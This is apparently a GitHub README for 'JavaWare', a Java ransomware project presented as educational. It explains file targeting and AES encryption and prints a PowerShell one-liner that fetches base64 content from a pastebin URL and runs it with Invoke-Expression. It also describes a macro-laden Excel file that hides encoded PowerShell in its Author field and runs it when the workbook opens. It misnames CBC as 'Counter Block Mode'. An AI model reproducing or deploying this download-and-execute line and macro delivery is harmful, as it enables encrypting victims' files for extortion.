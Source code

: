 # JavaWare
### A Ransomware Built in Java

#### Disclaimer
> I built this purely for **educational purposes**. I take no responsibility and/or liability for how you choose to use any of the code available here. If executing the ransomware, please do not do so on your own machine as it will encrypt your files. Although I did include a function to decrypt, I am in no way responsible. 

JavaWare is a ransomware which will observe your system, learn which files you use, and then encrypt your machine. Once all files have been encrypted it will launch the payload screen. 

![alt text](https://raw.githubusercontent.com/kyralmozley/JavaWare/V1.0/Screenshots/Pay%20Load.png "Launch Screen")

### How does it learn which files I use?
> Maths. 

### How does it encrypt? :lock:
> AES 128 bit Encryption in CBC Mode (Counter Block Mode ) PKCS5 Padding <br/>
*AES* is a symmetric encryption algorithm which works on blocks of a fixed size (16 bytes for AES128). *Padding* (PKCS5) is used if the block is less than 16 bytes long. We split the stream into 16 byte blocks, which is encrypted using AES and the result is XORed with the next block in the stream before it is encrypted. For the first block, it XORs it with an *initialization vector*, a random 16 byte value. 

### What does it encrypt?
> *FileTypes.java* defines what type of files to encrypt, it includes common document types and so will avoid program files to ensure your system is still functional. Similarly, *AvoidedDir.java* includes directories to avoid in traversal, such as *Windows* and *Program Files*. The PowerShell script is: 
```powershell
Powershell Invoke-Expression -Command  $([string]([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String((Invoke-WebRequest -Uri https://pastebin.com/raw/1JDNWfqP).content)
```

### How does it launch?
The Microsoft Excel file, *August Report.xlsm* contains a Macro which is run on Workbook Open. Encoded Base64 PowerShell code is hidden within this file under the 'Author' field. So the macro calls a function which gets the author, decodes it, and then runs the shell. 
###



java --module-path "C:\Users\Admin\Desktop\JavaWare\javafx-sdk-11.0.2\lib\" --add-modules=javafx.controls -jar Users\Admin\Desktop\JavaWare\JavaWare.jar


references: 
https://www.symantec.com/content/dam/symantec/docs/security-center/white-papers/increased-use-of-powershell-in-attacks-16-en.pdf

